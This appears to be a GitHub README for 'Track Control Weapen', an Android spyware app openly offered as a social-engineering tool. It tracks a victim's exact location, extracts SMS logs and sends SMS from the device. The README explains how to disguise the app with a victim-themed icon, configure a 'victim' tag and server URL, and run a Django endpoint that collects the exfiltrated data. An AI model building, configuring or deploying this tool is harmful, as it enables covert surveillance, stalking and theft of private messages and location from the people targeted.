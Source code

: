 <center> <h1> Track Control Weapen </h1> </center>

## Overview

This mobile app offers multiple modes of Social Engineering operation:

1. **Exact Location Tracking**: Track the exact location of the device.
2. **SMS Log Extraction**: Extract SMS logs from the device.
3. **Sending SMS from Device**: Send SMS messages from the device.
4. **Contact Extraction**: Extract contact information from the device.
5. **Installed App List Extraction**: Retrieve a list of installed apps on the device.
6. **More features coming soon**: Additional features will be added in future updates.

Currently, only the Exact Location Tracker is completed.

## TODO List

- [x] Exact Location Tracker
- [x] SMS Log Extraction
- [x] Sending SMS from Device
- [ ] Contact Extraction
- [ ] Installed App list Extraction
- [ ] Additional features

## Setup Instructions

To set up the app, follow these steps:

1. **Configure `strings.xml`**:
   - Navigate to the `res/values` folder.
   - Create or edit the `strings.xml` file using the template below:

### strings.xml Template

```xml
<resources>
    <string name="app_name">Your App Name</string>
    <string name="victim">Name of victim to tag the received data</string>
    <string name="server_url">Server URL where POST request is created</string>
    <string name="SendSmsTo">Phone No</string>
    <string name="Message">Message body</string>
</resources>
```

2. **Change the app icon**:

   - Navigate to the `res` folder.
   - Replace the existing icon files in the `mipmap` folders with your target(victim) based icon files.

3. **Build and Run the App**:
   - Open your project in Android Studio.
   - Build and run the app on your device or emulator.

## Structure of the POST Request

The app sends data to the server using a POST request with the following structure:

- `name`: Assigned in the `strings.xml`
- `mv01`: Contains all raw text data sent by the app

### Example POST Request

```json
{
	"name": "victim name",
	"mv01": "this is sent data"
}
```

## Receiver End Setup

The receiver end can be a Django server hosted on PythonAnywhere (https://www.pythonanywhere.com/) for free. To handle the POST request, you can use the following view:

```python
from django.views.decorators.csrf import csrf_exempt
from django.views.decorators.http import require_POST
from django.http import JsonResponse
from .models import tracker_database

@csrf_exempt
@require_POST
def tracker_database_entry(request):
    if request.POST.get("mv01"):
        entry = tracker_database(
            plan_data=request.POST.get("mv01"),
            name=request.POST.get("name", "s")
        )
        entry.save()
        response = {'status': 'success'}
        return JsonResponse(response, status=201)
    else:
        response = {'status': 'failure', 'message': 'Invalid data'}
        return JsonResponse(response, status=400)
```

## Changing App Modes

You can change the app modes by altering the `private Integer AppType = 1;` value in `MainActivity`. The available modes are:

- `0` -- All: Enable all features [only extraction].
- `1` -- Location: Enable exact location tracking.
- `2` -- SMS: Enable SMS log extraction.
- `3` -- Send SMS: Enable sending SMS from the device.
- `4` -- Contact: Enable Contact log extraction.
- `5` -- Installed App: Enable Installed App list log extraction.

## Contribution

If you would like to contribute to the project, please follow these steps:

1. Fork the repository.
2. Create a new branch (`git checkout -b feature-branch`).
3. Make your changes and commit them (`git commit -m 'Add new feature'`).
4. Push to the branch (`git push origin feature-branch`).
5. Create a new Pull Request.

## License

This project is licensed under the MIT License. See the `LICENSE` file for more details.

## Contact

For any questions or suggestions, please contact [ss.shiivam.00@gmail.com].
